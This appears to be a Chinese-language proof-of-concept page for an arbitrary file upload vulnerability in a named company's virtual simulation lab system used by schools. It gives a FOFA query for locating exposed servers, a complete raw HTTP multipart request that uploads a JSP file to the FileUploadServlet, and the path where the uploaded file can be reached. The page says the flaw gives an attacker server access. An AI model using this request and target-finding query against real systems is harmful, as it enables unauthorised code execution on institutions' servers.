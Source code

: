 # 一、漏洞简介
北京润尼尔科技股份有限公司（原北京润尼尔网络科技有限公司，以下简称“润尼尔或公司”）于2007年12月成立，实缴注册资本2483万，是一家在北京石景山区注册的国家高新技术企业、北京市专精特新企业，四届蝉联 “中国VR50强企业”。目前在武汉、西安、上海、成都、合肥、哈尔滨等地设立了分支机构。公司以虚拟仿真技术和网络技术为依托，面向各类学校提供集虚拟仿真教学资源、管理平台和虚拟现实设备为一体的“VR+教育”整体解决方案，旨在提高学生的实践动手能力，助力学校提高人才培养质量。北京润尼尔科技股份有限公司虚拟仿真实验室系统FileUploadServlet存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 北京润尼尔科技股份有限公司虚拟仿真实验室系统

# 三、资产测绘
+ fofa`body="virexp/s"`
+ 特征：

![](images/1709465782628-c2fcf5e8-a307-4259-9b09-5eeb303f7675.png)

# 四、漏洞复现
```java
POST /chatroom/FileUploadServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D608C8AF5AC63FB5DA57B858CFC42B42
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGIc4ig8R
Content-Length: 153

------WebKitFormBoundaryGIc4ig8R
Content-Disposition: form-data; name="aaa"; filename="1234.jsp"

<% out.println("testqqww"); %>
------WebKitFormBoundaryGIc4ig8R--

```

![](images/1709465813122-77170e61-a50b-452c-a55e-d6c97834b47d.png)

上传文件位置

```java
/chatroom/uploadFile/1234.jsp
```

![](images/1709465842482-05741b7d-a4ff-4b40-a2a4-4a963faa8eb8.png)

